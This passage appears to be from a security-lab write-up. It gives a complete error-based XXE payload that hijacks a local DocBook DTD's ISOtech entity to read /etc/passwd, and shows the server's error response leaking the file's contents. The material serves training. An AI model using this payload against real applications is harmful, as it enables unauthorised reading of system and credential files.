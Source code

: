 ```xml
%ISOgrk3;
%ISOgrk4;
%ISOlat1;
%ISOlat2;
%ISOnum;
%ISOpub;
%ISOtech;
```
3. carft payload. replace **custom_entity** with above enteties names
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOtech '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
response:
```
HTTP/1.1 400 Bad Request

"XML parser exited with error: java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
```
# Lab Solved!



